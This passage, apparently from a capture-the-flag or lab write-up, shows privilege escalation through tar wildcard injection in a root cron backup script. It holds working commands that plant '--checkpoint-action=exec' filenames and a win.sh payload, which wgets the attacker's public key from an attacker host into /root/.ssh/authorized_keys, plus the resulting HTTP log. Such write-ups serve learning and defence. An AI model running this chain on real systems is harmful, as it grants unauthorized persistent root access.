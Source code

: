 A script called backup.sh was being executed as root. The contents of said script:

```
$ cat /backup/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /backup/backup.tgz *
```

Oh ho! Looks like that wildcards document was going to come in handy after all. According to the document, we can exploit tar's wildcard parsing by creating a file called "--checkpoint=1" and "--checkpoint-action=exec=sh win.sh". 

```
$ echo '' > '--checkpoint=1'
$ echo '' > '--checkpoint-action=exec=sh win.sh'
$ ls -l
total 128
-rw-rw-rw- 1 www-data www-data     1 Jun  2 19:57 --checkpoint-action=exec=sh win.sh
-rw-rw-rw- 1 www-data www-data     1 Jun  2 19:56 --checkpoint=1
-rw-r--r-- 1 root     root     73450 Aug  6  2015 bomb.jpg
-rw-r--r-- 1 root     root      3901 May 21 18:56 bomb.php
-rw-r--r-- 1 root     root       124 May 21 17:50 content.php
-rw-r--r-- 1 root     root       145 May 21 17:17 index.php
-rw-r--r-- 1 www-data www-data    20 May 21 15:54 info.php
-rw-r--r-- 1 root     root       109 May 21 18:53 main.php
-rw-r--r-- 1 root     root     18260 Jan 22  2012 mj.jpg
-rw-r--r-- 1 root     root       532 May 21 23:33 nav.php
-rw-r--r-- 1 root     root       253 May 22 21:07 props.php
```

Now I just needed something in win.sh. I decided to just have it download my id_rsa_pub into /root/.ssh/authorized_keys so I could ssh in as root. 

```
$ printf 'mkdir -p /root/.ssh && chmod 700 /root/.ssh && wget http://172.16.146.129/id_rsa.pub -O /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys' > win.sh
```

Now I just waited for cron to execute backup.sh, which in turn would execute win.sh. I just watched the HTTP requests until I saw my id_rsa.pub get downloaded:

```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
172.16.146.131 - - [02/Jun/2016 13:25:27] "GET /shell.php HTTP/1.0" 200 -
172.16.146.131 - - [02/Jun/2016 14:00:01] "GET /id_rsa.pub HTTP/1.1" 200 -
172.16.146.131 - - [02/Jun/2016 14:00:01] "GET /id_rsa.pub HTTP/1.1" 200 -
172.16.146.131 - - [02/Jun/2016 14:00:01] "GET /id_rsa.pub HTTP/1.1" 200 -
172.16.146.131 - - [02/Jun/2016 14:00:01] "GET /id_rsa.pub HTTP/1.1" 200 -
172.16.146.131 - - [02/Jun/2016 14:00:01] "GET /id_rsa.pub HTTP/1.1" 200 -
172.16.146.131 - - [02/Jun/2016 14:00:01] "GET /id_rsa.pub HTTP/1.1" 200 -
172.16.146.131 - - [02/Jun/2016 14:00:01] "GET /id_rsa.pub HTTP/1.1" 200 -
172.16.146.131 - - [02/Jun/2016 14:00:01] "GET /id_rsa.pub HTTP/1.1" 200 -
172.16.146.131 - - [02/Jun/2016 14:00:01] "GET /id_rsa.pub HTTP/1.1" 200 -
172.16.146.131 - - [02/Jun/2016 14:00:01] "GET /id_rsa.pub HTTP/1.1" 200 -
172.16.146.131 - - [02/Jun/2016 14:00:01] "GET /id_rsa.pub HTTP/1.1" 200 -
```
